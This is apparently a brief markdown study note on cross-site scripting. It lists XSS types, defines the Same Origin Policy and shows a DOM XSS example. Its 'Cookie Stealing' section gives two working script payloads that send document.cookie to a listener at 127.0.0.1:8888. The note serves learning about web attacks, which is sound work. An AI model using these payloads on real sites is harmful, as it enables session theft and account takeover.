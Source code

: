 # Cross Site Scripting (XSS)

> Reflected XSS
> 
> Stored XSS
> 
> DOM based XSS
> 
> Blind XSS
> 
> Mutation based XSS
> 

What is Same Origin Policy (SOP) ?
A Policy that stops one website from reading or writing data to another

The policy checks:
> protocol
>
> host
>
> port


### DOM Based XSS

In DOM XSS, the page itself (the HTTP response that is) does not change.
```
<img src="/path/to/user_input" onload="alert(1)">
```
[payload] -injected-> [ js code ] -executes-> [ creates object including payload] -renders-

## Cookie Stealing
```
<script>document.write('<img src="http://127.0.0.1:8888/?'+document.cookie+'">');</script>
<script>window.location='http://127.0.0.1:8888/?cookie='+document.cookie</script>
```



